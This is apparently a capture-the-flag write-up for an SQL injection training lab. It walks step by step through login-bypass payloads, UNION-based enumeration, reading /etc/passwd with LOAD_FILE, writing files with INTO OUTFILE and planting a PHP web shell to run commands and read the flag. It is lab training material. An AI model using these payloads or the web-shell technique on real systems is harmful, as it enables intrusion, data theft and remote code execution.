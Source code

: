 
# Brief

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!


# Questions

1. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

```sh
# Target
83.136.253.217:59786

# Maybe nmap is not needed? Access the app
http://83.136.253.217:59786

# We see a login page. Check for SQLi

# None of the payload known for detection are working. Just returning `Incorrect Credentuials`.

# To bypass the login, you need to blindly enter. I had to google because it made no sense to not have an entry point
admin' or '1'='1-- - # Failed
admin' or 1=1-- - ' # Pass
admin' or 1=1 -- - ' # Pass
' or 1=1 -- - ' # Works too
' OR '1'='1' -- - ' # Pass
' or '1'='1' -- - ' # Pass

# Sends you to
http://83.136.253.217:59786/dashboard/dashboard.php


# In there, there's another SQLi, in the seach box. The second colon `'` is there for formatting. Don't blindly copy
' ' # Returns

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1 '


# So, we know we have mariaDB. Repeat the payload to have the columns back.
' or 1=1-- - ' 


# No Errors. Find the number of columns
' UNION SELECT 1,2,3-- - '
' UNION SELECT 1,2,3,4,5-- - '


# So, we have 5 columns. What versions?
' UNION select 1,@@version,3,4-- - '
' UNION SELECT 1,2,@@version,4,5-- - '

10.3.22-MariaDB-1ubuntu1


# Who are we?
' UNION SELECT 1, 2, user(), 4, 5-- - '

root@localhost


# What privileges do we have?
' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- - '

FILE is present


# Secure_privilege?
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - '

EMPTY


# Meaning, we can write to the whole filesystem. Or can we?
' union select "",'file written successfully!',"","", "" into outfile '/var/www/html/proof.txt'-- - '

Can't create/write to file '/var/www/html/proof.txt' (Errcode: 13 "Permission denied") '


# AWESOME!!! No writting perms there. Can we write into /tmp?
' union select "",'file written successfully!',"","", "" into outfile '/tmp/proof.txt'-- - '


# Yes. No error returned. How do we read this? From the URL using directory traversal, we failed. Can we load the file?
' UNION SELECT 1, 2, LOAD_FILE("/etc/passwd"), 4, 5-- - '

# Yes. How about the one we wrote?
' UNION SELECT 1, 2, LOAD_FILE("/tmp/proof.txt"), 4, 5-- - '


# Yes. Can I just read from the load file?
' UNION SELECT 1, 2, LOAD_FILE("/flag.txt"), 4, 5-- - '


# Nope. Or that the flag doesn't exist there. Or it has a different name?
' UNION SELECT 1, 2, LOAD_FILE("/proof.txt"), 4, 5-- - '


# Nope. Where can I write to?
' union select "",'file written successfully!',"","", "" into outfile '/var/www/html/dashboard/proof.txt'-- - '


# No error. Let's confirm that
' UNION SELECT 1, 2, LOAD_FILE("/var/www/html/dashboard/proof.txt"), 4, 5-- - '


# Yes. Can I write my webshell here then?
' union select "",'<?php system($_REQUEST[gt]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- - '


# No errors. Can I access? 
http://83.136.253.217:59786/dashboard/shell.php?gt=id


# Success!!! Start hunting for the flag using directory traversal.
view-source:http://83.136.253.217:59786/dashboard/shell.php?gt=ls%20-la%20../../../../

1	Adam	January	1337$	5%
2	James	March	1213$	8%
	total 68
drwxr-xr-x   1 root root 4096 May 20 02:16 .
drwxr-xr-x   1 root root 4096 May 20 02:16 ..
lrwxrwxrwx   1 root root    7 Jul  3  2020 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  360 May 20 02:16 dev
drwxr-xr-x   1 root root 4096 Sep 11  2020 etc
-rw-r--r--   1 root root   33 Sep 11  2020 flag_cae1dadcd174.txt
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Jul  3  2020 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Jul  3  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Jul  3  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Jul  3  2020 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Jul  3  2020 media
drwxr-xr-x   2 root root 4096 Jul  3  2020 mnt
drwxr-xr-x   2 root root 4096 Jul  3  2020 opt
dr-xr-xr-x 381 root root    0 May 20 02:16 proc
drwx------   1 root root 4096 Jul  9  2020 root
drwxr-xr-x   1 root root 4096 May 20 02:16 run
lrwxrwxrwx   1 root root    8 Jul  3  2020 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Jul  3  2020 srv
dr-xr-xr-x  13 root root    0 May 20 02:16 sys
drwxrwxrwt   1 root root 4096 May 20 03:23 tmp
drwxr-xr-x   1 root root 4096 Jul  3  2020 usr
drwxr-xr-x   1 root root 4096 Jul  9  2020 var


# Read the flag
view-source:http://83.136.253.217:59786/dashboard/shell.php?gt=cat%20../../../../flag_cae1dadcd174.txt

	******
```


# Reflexions

I had a doubtful moment there, looking for the entry point. I didn't realize I needed to just blindly paste the payload to bypass the login page. 
I sincerely dislike copying and pasting stuffs for the sake of it.
I wish there was a detection added to the lab. 

Anyways, glad this is completed.
